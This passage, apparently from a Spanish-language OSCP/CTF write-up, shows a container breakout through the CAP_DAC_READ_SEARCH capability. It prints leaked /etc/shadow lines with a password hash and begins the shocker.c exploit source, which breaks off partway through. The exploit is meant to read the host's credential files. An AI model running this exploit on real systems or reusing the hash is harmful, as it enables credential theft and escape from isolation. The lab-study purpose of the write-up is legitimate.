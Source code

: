 ```shell
lxd:!:18849::::::
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
```
Y efectivamente, es vulnerable.

Pero como `cdk` te automatiza la explotación, no se podría utilizar en el OSCP.

¡Así que vamos a explotarlo manualmente!

## Abusing CAP_DAC_READ_SEARCH
Podemos utilizar un exploit de openwall llamado `shocker.c` y modificarlo para conseguir lo que queramos.
https://tbhaxor.com/container-breakout-part-2/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
    unsigned int handle_bytes;
    int handle_type;
    unsigned char f_handle[8];
};

void die(const char *msg)
{
    perror(msg);
    exit(errno);
}

void dump_handle(const struct my_file_handle *h)
{
    fprintf(stderr,"[*] #=%d, %d, char nh[] = {", h->handle_bytes,
    h->handle_type);
    for (int i = 0; i < h->handle_bytes; ++i) {
        fprintf(stderr,"0x%02x", h->f_handle[i]);
        if ((i + 1) % 20 == 0)
        fprintf(stderr,"\n");
        if (i < h->handle_bytes - 1)
        fprintf(stderr,", ");
    }
    fprintf(stderr,"};\n");
}

int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle
*oh)
{
    int fd;
    uint32_t ino = 0;
    struct my_file_handle outh = {
```